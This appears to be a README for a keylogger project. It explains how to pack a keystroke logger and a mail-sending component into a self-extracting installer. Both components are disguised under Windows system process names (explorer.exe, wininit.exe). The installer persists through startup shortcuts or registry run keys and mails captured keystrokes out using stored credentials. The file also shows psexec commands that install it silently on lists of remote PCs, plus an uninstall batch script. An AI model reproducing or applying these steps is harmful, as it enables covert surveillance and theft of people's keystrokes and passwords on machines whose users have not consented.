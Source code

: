 ﻿Instructions to Build Installer
==================================

1. Zip the content containing all files with 7 zip package.7z
	- Keylogger binary - explorer.exe
	- Send Mail binary - wininit.exe
	- settings.txt CSV - LogDir, CompName, sendTo, sendFrom, Password, RetryTime, PubIPURL
	- titles.txt (Optional) - Window titles at each line. If exists, keylogger will record keystrokes under those titles only

2. Optionally modify config.txt, It must be saved in UTF-8 Encoding. Ensure right bottom corner of Notepad++ shows **UTF-8-BOM**

3. in cmd type

       copy /b 7zsd.sfx+config.txt+package.7z nklg.exe

4. Use nklg.exe to Install KLG. Use cmd switch of nklg.exe to control type of installation

        nklg.exe	Default..AU
        nklg.exe -ai0	All Users Startup Shortcut(AU)
        nklg.exe -ai1	Users Startup Shortcut
        nklg.exe -ai2	HKLM
        nklg.exe -ai3	HKCU

Note that you must have administrative rights to perform -ai0 or -ai2


Instructions to Install/Uninstall
====================================

## Install

### On Local Computer:

	Run nklg.exe as Administrator

### On Remote PC's(Remote PC names are stored in comps.txt)

	psexec @comps.txt -u administrator -c -f -i nklg.exe

## Uninstall

*uklg.bat*
```
@echo off
taskkill /f /fi "USERNAME ne SYSTEM" /im wininit.exe
taskkill /f /fi "MEMUSAGE lt 13000" /im explorer.exe
DEL /Q /A C:\ProgramData\System
ATTRIB -S -H "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
ATTRIB -S -H "C:\Users\%USERNAME%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup"
DEL "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\Windows*"
DEL "C:\Users\%USERNAME%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\Windows*"
```

### From Local Computer

	Run uklg.bat as administrator.

### From Remote Computer

- Create a share `\\PC-NAME\share`
- Put `uklg.bat` in `\\PC-NAME\share`
- Disable password protected sharing from advanced sharing setting
- Run following in cmd `psexec @comps.txt -u administrator -i cmd /c \\PC-NAME\share\uklg.bat`
